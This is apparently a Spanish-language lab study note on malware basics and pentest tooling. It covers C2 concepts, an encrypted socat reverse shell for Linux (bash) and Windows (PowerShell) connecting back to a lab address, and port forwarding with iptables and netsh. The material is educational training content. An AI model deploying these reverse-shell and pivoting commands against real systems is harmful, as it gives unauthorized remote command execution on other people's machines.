









---
aliases:
---
---

# Lab



---

## Basicos sobre Malware

- Un malware es un software malicioso o al que se le puede dar un uso malicioso. El malware por lo general trata de destruir y/o tomar el control de sistemas. 
- Se puede programar en distintos lenguajes de programación, se escoge un lenguaje en función del tipo sistema que sea quiera i nfectar (por compatibilidad con el SO). 
- Normalmente el malware usa el modelo cliente-servidor, esta comunicación se realiza usando un protocolo X y puede ir cifrado o no.
- cuando se habla de desarrollar un C2 se refiere a kit de malware completo tanto la parte cliente como la servidora.
- Un malware suele tener muchos “módulos” o funcionalidades Una funcionalidad puede ser cifrar todos los documentos del sistema infectado y pedir un recate por ellos, “ramsonware”. 
- Una de las funcionalidades más comunes es la de obtener una reverse shell, cuyo propósito es poder ejecutar comandos en el eq uipo infectado.

---

## Bind Shell



---

## Reverse Shell



---

## Socat

Socat es similar a netcat pero con opciones más avanzadas. También permite realizar port fowd y túneles. La ventaja es que permite obtener una shell full interativa y las conexiones pueden ir cifradas con TLS.

```shell
#Instalar socat en Linux
apt install socat 
#Socat para Windows
https://github.com/valorisa/socat-1.8.0.0_for_Windows
```

```shell
#Generar clave y certificado, estos certificados hay que tenerlos en los dos nodos de la conexión. 
openssl genrsa -out socat.key 
openssl req -new -key socat.key -x509 -days 365 -out socat.crt 
cat socat.key socat.crt > socat.pem 
chmod 600 socat.key socat.pem
```
```shell
#Listener TLS de socat 
socat file:`tty`,raw,echo=0 OPENSSL-LISTEN:6443,cert=socat.pem,cafile=socat.crt
```




```shell
#Conexión con socat 
socat exec:'bash -li',pty,stderr,setsid,sigint,sane OPENSSL:10.88.0.100:6443,verify=0,cert=socat.pem,cafile=socat.crt
```


```shell
#Conexión con socat en Windows 
.\socat.exe exec:'powershell.exe',pty,stderr,setsid,sigint,sane OPENSSL:10.88.0.100:6443,verify=0,cert=socat.pem,cafile=socat.crt
```
---

## IP Tables

Iptables es el programa de firewall para linux por excelencia, disponible prácticamente en cualquier sistema Linux. 
Vamos a realizar un ejemplo de port forwarding mediante iptables, que no tienen un uso en concreto, es puramente para fines demostrativos. 
Redirigir una conexión entrante por el puerto 8080 de jungle al puerto 80 de tundra. 
Nota: estos comandos de iptables no son persistentes.

```bash
iptables -I INPUT -p tcp -m tcp --dport 8080 -j ACCEPT 

iptables -t nat -A PREROUTING -p tcp --dport 8080 -j DNAT --to-destination 10.88.0.102:80 

iptables -t nat -A POSTROUTING -j MASQUERADE iptables -I FORWARD -j ACCEPT 

iptables -P FORWARD ACCEPT 

#Habilitar el enrutamiento. 
sysctl net.ipv4.ip_forward=1
```





```bash
#Limpiar iptables. 
iptables -P INPUT ACCEPT 
iptables -P FORWARD ACCEPT 
iptables -P OUTPUT ACCEPT 
iptables -t nat -F 
iptables -t mangle -F 
iptables -F iptables -X 
#Ver iptables. 
iptables -nvL
```
---

## Netsh

Es una herramienta nativa de Windows para configuración de redes, entre otras cosas nos permite realizar un port forward.

Regla que redirigirá el tráfico entrante por el puerto 8080 al sistema 10.88.0.102 puerto 80.
`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=10.88.0.102`

Mostrar reglas de port forwarding. 
`netsh interface portproxy show all`


Permitir puerto 8080 en firewall de windows. 
`netsh advfirewall firewall add rule name="Input TCP Port 8080" dir=in action=allow protocol=TCP localport=8080`
nota: Comando para vista 2008 o superior



Eliminar el port forward y la regla de firewall. 
`netsh advfirewall firewall del rule name="Input TCP Port 8080"`
`netsh interface portproxy delete v4tov4 listenport=8080 listenaddress=0.0.0.0 protocol=TCP`

---

